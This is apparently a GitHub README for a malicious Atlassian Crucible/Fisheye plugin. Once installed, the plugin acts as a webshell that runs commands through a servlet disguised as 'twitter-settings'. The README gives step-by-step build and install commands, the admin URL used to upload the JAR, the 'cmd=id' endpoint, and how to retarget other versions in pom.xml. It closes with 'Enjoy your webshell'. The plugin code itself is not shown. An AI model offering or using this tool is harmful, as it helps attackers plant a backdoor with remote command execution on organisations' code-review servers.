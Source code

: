 ## Summary
A malicious plugin for Atlassian Crucible/Fisheye that when installed gives command execution via `/plugins/servlet/twitter-settings?cmd=id` endpoint

## Usage
1. Install Atlassian Plugin SDK. E.g. for MacOS:
```bash
brew tap atlassian/tap
brew install atlassian/tap/atlassian-plugin-sdk
```

2. Clone this repo & cd into it
```bash
git clone https://github.com/UgniusV/fecru-webshell-plugin.git
cd fecru-webshell-plugin
```

3. Generate a JAR by running
```bash
atlas-package
```

4. Generated JAR is now placed at `./target/fecrutwitter-1.0.0-SNAPSHOT.jar`
5. Navigate to http://crucible:8060/plugins/servlet/upm?source=side_nav_manage_addons & install the JAR
6. Enjoy your webshell at: http://crucible:8060/plugins/servlet/twitter-settings?cmd=id

### Important note
Currently this plugin is designed to work with Crucible/Fisheye `4.8.11`. If you would like to install it on another version, please change the versions & build numbers accordingly inside `pom.xml`
```xml
        <fecru.version>4.8.11-20221216114657</fecru.version>
        <fecru.data.version>4.8.11-20221216114657</fecru.data.version>
```
